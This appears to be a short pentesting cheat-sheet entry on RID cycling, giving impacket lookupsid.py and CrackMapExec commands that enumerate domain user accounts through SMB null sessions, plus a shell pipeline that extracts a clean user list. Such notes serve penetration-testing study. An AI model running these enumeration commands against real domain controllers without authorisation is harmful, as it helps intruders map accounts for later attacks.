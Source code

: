```yaml
---
description: Relative Identifier
---
```


# RID Cycling

* [https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/](https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/)

Perform RID cycling attack against a DC with SMB null sessions allowed with [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py):

```
$ lookupsid.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 20000 [-domain-sids] | tee ~/ws/log/lookupsid.out
$ cat ~/ws/log/lookupsid.out | grep SidTypeUser | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F'\' '{print $2}' | awk '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

With CrackMapExec:

```
$ cme smb 192.168.1.11 -u '' -p '' --users
```
